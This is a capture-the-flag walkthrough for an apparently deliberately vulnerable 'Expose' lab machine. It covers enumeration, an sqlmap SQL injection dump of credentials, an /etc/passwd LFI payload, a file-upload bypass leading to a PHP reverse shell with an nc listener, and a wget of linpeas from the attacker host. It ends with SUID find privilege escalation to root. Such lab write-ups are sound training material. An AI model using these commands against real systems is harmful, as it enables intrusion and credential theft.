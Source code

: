 # Expose - Easy

* nmap scan - ```nmap -T4 -p- -A -Pn -v 10.10.7.213``` - reveals open ports & services:

  * 21/tcp - ftp - vsftpd 2.0.8 or later
  * 22/tcp - ssh - OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
  * 53/tcp - domain - ISC BIND 9.16.1 (Ubuntu Linux)
  * 1337/tcp - http - Apache httpd 2.4.41 ((Ubuntu))
  * 1883/tcp - mosquitto version 1.6.9
  * 6306/tcp - filtered - ufmp
  * 26009/tcp - filtered - unknown
  * 35119/tcp - filtered - unknown
  * 40139/tcp - filtered - unknown
  * 55281/tcp - filtered - unknown

* We can access ftp and login as anonymous, but there is nothing to be found

* On port 1337, we have a webpage that just says 'exposed'; we can try basic enumeration here:

  ```sh
  gobuster dir -u http://10.10.7.213:1337 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt,php,html,bak -t 16 | tee expose1337.txt
  # redirect output to file because sometimes it prints too much output on terminal
  ```

* We get directories like '/admin', '/javascript' and '/phpmyadmin' - we get login portals for two of these

* We can simultaneously check with the MQTT service on port 1883 - it's a pub/sub protocol, and we can use ```mosquitto_sub``` to interact with it:

  ```sh
  mosquitto_sub -t "#" -h 10.10.7.213 -v
  # wildcard subscription - subscribes client to all unprotected topics on MQTT server
  ```

* The MQTT service does not give us anything; need to enumerate more.

* Navigating back to the '/admin' directory, it says 'is this the right admin portal?' - indicating there is another admin portal

* We can enumerate again, this time, we can use a different wordlist:

  ```sh
  gobuster dir -u http://10.10.7.213:1337 -w /usr/share/dirb/wordlists/big.txt -x txt,php,html,bak -t 16
  ```

* We get another directory '/admin_101' this time - accessing it shows that the username field is filled with '<hacker@root.thm>' on its own

* We can enumerate this subdirectory further:

  ```sh
  gobuster dir -u http://10.10.7.213:1337 -w /usr/share/dirb/wordlists/big.txt -x txt,php,html,bak -t 16
  ```

* This gives us files and folders like '/assets', '/chat.php', '/includes', '/modules', 'signup.php', and '/test'

* In '/signup.php', we can try to create an account but it does not work

* Navigating back to '/admin_101', we can try to test different inputs in login page; using a quotation mark in username field gives us the 'undefined' prompt instead of the usual 'error' one

* This could indicate a possible SQLi vulnerability - we can use ```sqlmap``` to test this further:

  ```sh
  # using Burp Suite, intercept the login attempt and save the POST request to a file

  sqlmap -r admin.req --batch --dump
  # this gives us 2 tables - config and user
  # from 'user', we get the credentials "hacker@root.thm:VeryDifficultPassword!!#@#@!#!@#1231"
  ```

* Logging in using the creds leads to '/chat.php', but we cannot interact with this it seems

* From the ```sqlmap``` dump, we also get the 'config' table contents, which includes the URL "/file1010111/index.php" with a cracked password hash for 'easytohack' - logging into this leads us to the admin dashboard for a tourism website. In this page, we get the clues for 'parameter fuzzing' and 'try file or view as GET parameters'

* We also have another URL "/upload-cv00101011/index.php" from the dump - password hint is 'name of machine user starting with letter "z"'

* Going back to the parameter fuzzing page, we can intercept a request in Burp Suite for parameters 'view' and 'file' - 'view' returns the same page as before while 'file' gives a blank page

* We can use parameter fuzzing tools for this, based on the POST request being sent:

  ```sh
  ffuf -w /usr/share/wordlists/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt -X POST -d "password=easytohack" -u http://10.10.239.247:1337/file1010111/index.php?file=FUZZ
  # identify response size to be filtered

  ffuf -w /usr/share/wordlists/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt -X POST -d "password=easytohack" -u http://10.10.239.247:1337/file1010111/index.php?file=FUZZ -fs 1400

  ffuf -w /usr/share/wordlists/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt -X POST -d "password=easytohack" -u http://10.10.239.247:1337/file1010111/index.php?view=FUZZ -fs 1400
  ```

* We do not get anything from this, so we will have to try another approach

* Navigating back to the website, if we use ```?file=index.php``` to test for any LFI vulnerabilities, we can see that the page loads itself multiple times.

* We can try to see further and check if we are able to load any other local files

* Using the payload ```?file=../../../../etc/passwd```, we are able to read the ```/etc/passwd``` file - this also contains the name of the user starting from 'z' - 'zeamkish'

* Feeding this username in the other page "/upload-cv00101011/index.php", we get a file upload function

* Checking the source code, it runs a validation function, splits by '.' separator, and checks if it's a 'jpg' or 'png' file

* We can upload a normal '.png' file - it gets uploaded to a folder "/upload_thm_1001"

* To bypass this, we can intercept a valid upload request, and edit the filename to 'revshell.php', and forward it to the server

* The shell gets uploaded, and after we setup a listener using ```nc -nvlp 4444```, we get a reverse shell once the file is accessed:

  ```sh
  id
  # www-data

  ls /home

  ls /home/zeamkish
  # we have the user flag and ssh creds here, but we cannot read flag yet

  # get the creds
  cat /home/zeamkish/ssh_creds.txt
  ```

  ```sh
  # using the above creds
  ssh zeamkish@10.10.239.247

  cat flag.txt
  # user flag

  # for privesc, we can start by checking linpeas.sh
  # in attacker machine, host in same directory
  python3 -m http.server 8000

  # back in our victim ssh
  cd /tmp

  wget http://10.10.22.229:8000/linpeas.sh

  chmod +x linpeas.sh

  ./linpeas.sh | tee check.txt
  # redirecting output to file as well for reference
  ```

* ```linpeas.sh``` shows interesting files with SUID bit set - this includes ```/usr/bin/nano``` and ```/usr/bin/find``` - we can use [GTFOBins](https://gtfobins.github.io/) to exploit this:

  ```sh
  # check for files with SUID bit set
  find / -type f -perm -04000 -ls 2>/dev/null
  # shows nano and find both

  # SUID exploit for find
  ./find . -exec /bin/sh -p \; -quit
  # this gives us root shell
  ```
